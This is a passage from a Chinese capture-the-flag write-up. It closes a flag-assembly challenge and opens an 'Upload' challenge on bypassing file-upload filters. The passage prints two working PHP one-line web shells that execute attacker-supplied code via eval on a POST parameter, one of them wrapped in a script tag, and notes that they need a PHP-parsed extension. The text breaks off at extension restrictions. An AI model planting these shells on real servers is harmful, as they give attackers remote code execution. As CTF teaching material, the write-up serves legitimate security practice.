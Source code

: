 ![flag3](S3cCTF-出题人gyy-Writeup/20201122193344579.png)
将三段flag组合即可

---

### Upload

#### 出题解析

本题考察文件上传，考察上传绕过的姿势，因为比赛限制，没有出太难的过滤

#### 解题方式

当然，不是真的让你上传个动图。。我服务器里发现了好多奇奇怪怪的图片
一般文件上传一句话木马直接获取shell
`<?php @eval($_POST[gyy])?>`
需要能被php解析才行，.txt,.gif都是不可被解析的
或者直接用script标签
`<script language='php'>@eval($_POST[gyy]);</script>`
后缀名限制